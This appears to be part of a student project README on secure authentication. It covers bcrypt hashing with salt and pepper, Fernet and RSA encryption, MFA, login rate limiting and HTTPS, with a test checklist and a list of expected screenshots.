





---

## 9. Automated Tests (`test_secure_auth.py`)

**Goal:** prove every item in the Testing Checklist actually passes, not
just that it was implemented.

```bash
python test_secure_auth.py
```



---

## Best Practices Checklist — status
| Practice | Where it's handled |
|---|---|
| Hash all passwords (bcrypt) | `secure_auth.register()` — `bcrypt.hashpw()` |
| Add unique salt per user | `bcrypt.gensalt()` generates a new random salt every call |
| Add pepper (server-wide secret) | `secure_auth.py` — `PEPPER` mixed into every password before hashing, stored as an environment variable, separate from the database |
| Use HTTPS everywhere | `https_demo.py` — Flask served with `ssl_context="adhoc"` |
| Never log passwords | Raw password is only ever passed into `bcrypt` functions, never printed/written to any file |
| Strong password requirements | `is_strong_password()` — min 12 chars, 1 number, 1 symbol |
| Rate-limit login attempts | `is_locked_out()` / `record_failed_attempt()` — 3 tries, 60s lockout |
| Multi-factor authentication | `mfa.py` — TOTP secret per user, verified on login step 2 |
| Regularly update libraries | `requirements.txt` — run `pip install -r requirements.txt --upgrade` periodically |

## Testing Checklist — status
All 13 checks in `test_secure_auth.py` pass:
- Generate bcrypt hash → different hash each time ✅
- Verify correct password ✅
- Reject wrong password ✅
- Encrypt and decrypt data → data recoverable with key ✅
- Encryption with wrong key → raises exception ✅
- User registration system → users saved securely (hash only, never plaintext) ✅
- User login verification → password + MFA both required ✅
- Rainbow table resistance → salt makes every hash unique ✅
- Weak password rejected ✅
- Account lockout after repeated failed attempts ✅

## RSA public-key cryptography
`rsa_example.py` demonstrates asymmetric encryption, separate from the
symmetric encryption in `encryption_examples.py`:
- **Symmetric (Fernet)**: one key encrypts AND decrypts. Fast, but both
  sides need the same secret key beforehand — a problem if they've never met.
- **Asymmetric (RSA)**: two keys. A public key (safe to share with anyone)
  encrypts; only the matching private key (kept secret) can decrypt. This
  solves the "how do we agree on a secret over an insecure channel" problem
  and is the same idea an HTTPS/TLS handshake uses before your browser and
  a website settle on a fast symmetric key for the rest of the session.

## Man-in-the-middle (MITM) attacks and key management
A MITM attack is when someone secretly sits between you and the server
you're talking to, intercepting (and possibly altering) everything in
between — like an attacker on the same Wi-Fi reading traffic between a
victim and a login page. Project 1's ARP spoofing + Wireshark FTP capture
demonstrates this directly: FTP sends credentials in plain text, so anyone
positioned in the middle of that connection can just read them off the wire.

**Why Project 2's design defends against this:**
- **HTTPS (`https_demo.py`)**: encrypts the password in transit, so even if
  an attacker is in the middle, they only see scrambled ciphertext instead
  of the real password.
- **Key management practices applied here**: the pepper is kept in an
  environment variable, never committed to GitHub or stored in `users.json`
  alongside the hashes it protects; RSA private keys are never shared,
  only public keys are; and Fernet keys in `encryption_examples.py` are
  generated fresh rather than hardcoded, which is how a real system would
  pull keys from a secrets manager instead of the source code.

## Key findings
- **Hashing vs encryption**: passwords are hashed (one-way, bcrypt) and never
  encrypted or stored in plaintext. Encryption (Fernet/AES) is used only for
  data that must be read back later, like the credit-card example.
- **Salting defeats rainbow tables**: the same password produces a different
  bcrypt hash every time it's hashed, because a random salt is baked in.
  Plain SHA-256 produces the identical hash every time, making it directly
  vulnerable to precomputed lookup tables.
- **Pepper adds a second layer**: unlike salt (stored with the hash), the
  pepper is a separate secret never stored in the database — so a leaked
  `users.json` alone still isn't enough to brute-force real passwords.
- **Rate limiting + MFA together stop brute force**: even if an attacker
  guesses the password, they're locked out after 3 tries, and even if they
  get past that, they still need the second factor (MFA code) to log in.
- **HTTPS protects data in transit**: without it, a password typed into a
  login form travels across the network in plain text and can be read by
  anyone on the same network (this is what the Wireshark FTP capture in
  Project 1 demonstrates — plaintext credentials sniffed off the wire).

---

## 📁 Expected Screenshots Folder

```
screenshots/
├── p2-00a-venv-folder-structure.png
├── p2-00b-installed-packages.png
├── p2-00c-pycache-proof.png
├── p2-01-pip-install.png
├── p2-02-register-success.png
├── p2-03-weak-password-rejected.png
├── p2-04-users-json.png
├── p2-05-authenticator-app-code.png
├── p2-06-mfa-login-success.png
├── p2-07-rate-limit-lockout.png
├── p2-08-fernet-encrypt-decrypt.png
├── p2-09-fernet-wrong-key-fails.png
├── p2-10-rsa-keypair-encrypt.png
├── p2-11-rsa-decrypt-success.png
├── p2-12-rsa-wrong-key-fails.png
├── p2-13-sha256-same-hash.png
├── p2-14-bcrypt-different-hash.png
├── p2-15-gui-main-window.png
├── p2-16-gui-mfa-secret-dialog.png
├── p2-17-gui-mfa-entry.png
├── p2-18-gui-login-success.png
├── p2-19-https-cert-warning.png
├── p2-20-https-login-form.png
├── p2-21-https-mfa-form.png
├── p2-22-https-login-success.png
└── p2-23-all-tests-passing.png
```

